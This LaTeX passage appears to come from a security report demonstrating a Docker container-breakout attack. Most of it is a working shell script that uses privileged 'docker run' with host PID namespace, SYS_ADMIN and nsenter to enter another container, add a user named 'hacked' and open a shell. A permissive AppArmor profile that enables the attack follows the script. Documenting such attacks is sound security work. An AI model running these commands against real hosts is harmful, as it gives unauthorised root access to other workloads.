 In accordance with the breaking out to host instance, the attacker aims to execute some commands in target process's root directory.
In the following shell script, the attacker uses the docker client to find the pid of the target container and commits the attack:

\begin{lstlisting}[style=shellscript, caption={2\_run\_attacker\_to\_container.sh}]
#!/bin/sh

#List all running containers and keep the one including 'debian'
docker ps | grep debian > dockerps
#Keep the container's id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)
#Find the pid of the container's process
docker inspect --format {{.State.Pid}} ${container_id} > PID
container_pid=$(cat PID)

#List contents of container's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount ls /

#Touch a new file in container's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount touch HelloFromTheOtherSide

#Add a new user in the container
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /usr/sbin/useradd hacked

#Create a shell in the container
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /bin/bash

#Clear files
rm PID
rm dockerps
rm containerid
\end{lstlisting}

The docker run command executed above have the same flags as in the attack to host, except for the capability SYS\_PTRACE which is no longer needed as we are targeting PIDs different from the PID 1. 

Moreover, after the attacker\_profile is loaded, it is used in order to allow the attack, exactly like the one used in host's attack except for the rule capability sys\_ptrace.

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacker\_profile}]
#include <tunables/global>

profile attacker_profile flags=(attach_disconnected,mediate_deleted) {
        capability sys_admin,
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        capability sys_chroot,
        ptrace (read,trace),
}
\end{lstlisting}
	
